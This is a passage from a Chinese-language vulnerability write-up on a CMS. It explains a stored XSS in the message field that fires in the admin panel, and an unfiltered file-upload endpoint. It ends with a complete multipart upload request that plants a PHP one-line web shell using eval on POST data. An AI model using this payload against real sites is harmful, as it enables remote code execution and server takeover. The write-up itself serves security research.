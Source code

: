 这处留言的地方  
问题出现在neirong这个参数没有经过任何过滤就输出到了页面 并且还存入了数据库 所以导致后台查看的时候直接执行了

这出xss需要用POST的请求方法 因为从代码上可以看到 if的判断条件是$\_POST 不为空  
然后我们来到页面构造xss

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-91a3cbaa1248bb4ca165e64c85f97211039a769c.png)

执行之后 我们登入后台来查看留言

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-df0451bd549a8c025884978b7b49b61895ac7700.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-d1377a673fafb5abb13a27684a35987508f669c0.png)

查看详情也是直接就弹

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-132139ee26f367c4876333fe20c58f4241f403be.png)

F12查看代码 语句也加载进来了

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-c99dcf006fcf6d0129d05a1b5d6f1931ac8b0c3c.png)

0x8第四处 文件上传
-----------

### 文件上传1

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-83647a942046a5bc7bb0f97e2be3fe2c75136f5d.png)

从路径可以发现是后台的 (但没影响 后面发现有api路径 就是任意上传)

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f62188b11498bb7dade70bb4947a00b20256bd9c.png)

啥过滤 判断都没有 直接传  
因为刚开始麻烦找payload数据那些 就在后台去找了一下上传点抓包

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f35214d4f083bbb23ddecbda0d48f5a6c8c7184f.png)

上传的时候抓包

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-04a85f0e8c31d477520ff2fa0232ec3c2dafcabd.png)

然后复制返回的路径 拼接到url上打开

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-07a46eb85861a5b6b97fb884fdddf45f141fd042.png)

也是成功执行  
整体payload：url路径：/zbzcms.com/cms/cms/admin/ajax.php?run=youad\_pic  
参数：

```php
------WebKitFormBoundary1yVpo1vIVcMvlXNA
Content-Disposition: form-data; name="0"; filename="yjh.php"
Content-Type: application/octet-stream

herman
<?php @eval($_POST['a']); phpinfo();?>
------WebKitFormBoundary1yVpo1vIVcMvlXNA--
```
